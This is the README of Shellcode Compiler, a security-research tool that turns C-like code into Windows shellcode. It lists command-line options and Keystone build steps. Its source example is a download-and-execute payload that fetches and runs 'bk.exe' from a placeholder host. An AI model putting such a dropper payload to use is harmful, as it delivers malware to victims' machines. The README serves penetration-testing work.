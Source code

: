 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with Keystone engine.

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
		-p (--platform)  : Shellcode platform: win_x86,win_x64,linux_x86,linux_x64
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog
1. Initial support for Windows x64

# Keystone compilation
1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio 2019 - x86 (for 32 bits) and x64 (for 64 bits) Native Tools Command Prompts and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone_x86.lib and keystone_x64.lib

# Author

Ionut Popescu (@NytroRST)
